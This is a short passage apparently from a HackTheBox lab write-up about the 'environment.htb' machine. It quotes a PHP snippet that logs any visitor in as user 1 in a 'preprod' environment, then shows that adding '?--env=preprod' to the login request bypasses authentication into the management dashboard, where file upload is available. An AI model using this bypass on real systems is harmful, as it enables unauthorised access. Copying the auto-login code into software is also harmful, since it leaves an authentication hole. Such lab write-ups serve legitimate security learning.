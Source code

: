 ![](<./attachments/Environment-8.png>)

```php
  if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs

        $request->session()->regenerate();

        $request->session()->put('user_id', 1);

        return redirect('/management/dashboard');

    }
```
### To Access management dashboard
- change `POST /login HTTP/1.1` to `POST /login?--env=preprod HTTP/1.1`

![](<./attachments/Environment-10.png>)
- Forwarding gives access to `http://environment.htb/management/dashboard`
- Profile can upload file